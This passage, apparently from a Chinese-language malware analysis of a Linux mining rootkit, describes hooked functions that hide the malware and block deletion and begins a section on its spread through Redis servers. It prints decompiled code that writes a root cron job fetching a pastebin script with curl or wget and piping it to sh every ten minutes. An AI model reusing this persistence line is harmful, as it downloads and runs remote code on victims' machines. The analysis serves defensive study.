 大致的意思是：

如果查询结果中包含恶意应用名称及路径，则不返回相应结果，起到隐藏作用。

另外程序也对rmdir函数进行了重写，防止恶意程序的文件被删除。

这里是重写的函数列表

[![](https://p0.ssl.qhimg.com/t01671bac4e58d0ff17.png)](https://p0.ssl.qhimg.com/t01671bac4e58d0ff17.png)

其中作者不仅在access函数中做了隐藏操作，而且还进行了写入计划任务的操作：

```
s = fopen("/etc/cron.d/root", "w+");

  if ( s )

  `{`

    fwrite(

      "*/10 * * * * root (curl -fsSL https://pastebin.com/raw/sByq0rym||wget -q -O- https://pastebin.com/raw/sByq0rym)|shn##",

      1uLL,

      0x75uLL,

      s);

    fclose(s);

  `}`
```

横向传播

0x1 攻击redis服务器

遍历内网ip及外网ip攻击redis服务器：

测试机上通过wireshark抓取到的redis攻击行为

[![](https://p1.ssl.qhimg.com/t01554943dad467cc17.png)](https://p1.ssl.qhimg.com/t01554943dad467cc17.png)

调用过程：

```
Main.main

-&gt;github_com_hippies_LSD_LSDA_Ago

-&gt;github_com_hippies_LSD_Ago_func1

-&gt;github_com_hippies_LSD_LSDA_runtwo

-&gt;github_com_hippies_LSD_LSDA_run

-&gt;github_com_gomodule_redigo_redis_DialTimeout

-&gt;github_com_gomodule_redigo_redis_Dial

-&gt;github_com_gomodule_redigo_redis__conn_Do

-&gt;github_com_gomodule_redigo_redis__conn_DoWithTimeout

-&gt;github_com_gomodule_redigo_redis__conn_writeCommand
```
